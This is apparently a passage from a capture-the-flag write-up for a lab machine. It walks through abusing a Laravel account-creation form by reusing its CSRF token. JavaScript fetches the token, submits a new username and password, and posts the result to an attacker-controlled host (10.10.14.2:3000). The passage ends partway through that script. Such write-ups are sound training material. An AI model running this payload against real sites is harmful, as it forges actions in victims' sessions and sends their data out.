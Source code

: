 ```html
            <th>Username</th>
            <th>Creation Date</th>
            <th width="280px">Action</th>
        </tr>
    </table>
</div>
</body>
</html>
```

The link to `/accounts/create` is interesting. Getting this page:
```html
<form action="http://ftp.crossfit.htb/accounts" method="POST">
    <input type="hidden" name="_token" value="2kUXRzOMFY721Bppx9GnlMDpRKsc9CcX1qVzbD3H">
     <div class="row">
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Username:</strong>
                <input type="text" name="username" class="form-control" placeholder="Username">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Password:</strong>
                <input type="password" name="pass" class="form-control" placeholder="Password">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                <button type="submit" class="btn btn-primary">Submit</button>
        </div>
    </div>

</form>
```

It is using a CSRF Token. \_token is characteristic from Laravel. This token is regenerated each time the session change, so we need to sent the request in a single session. To do that we can set `request.withCredentials = true;` in `XMLHttpRequest` object.

So, our script will:
1. Get page at /accounts/create
2. Find the CSRF token
3. Send a POST to /accounts with token, username and password
4. Post results back to our host

```js
function get_token(body) {
    var dom = new DOMParser().parseFromString(body, 'text/html');
    return dom.getElementsByName('_token')[0].value;
}


var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if (fetch_req.readyState == XMLHttpRequest.DONE) {
        var token = get_token(fetch_req.response);

        var reg_req = new XMLHttpRequest();
        reg_req.onreadystatechange = function() {
            if (reg_req.readyState == XMLHttpRequest.DONE) {
                var exfil_req = new XMLHttpRequest();
                exfil_req.open("POST", "http://10.10.14.2:3000/", false);
                exfil_req.send(reg_req.response);
            }
        };
```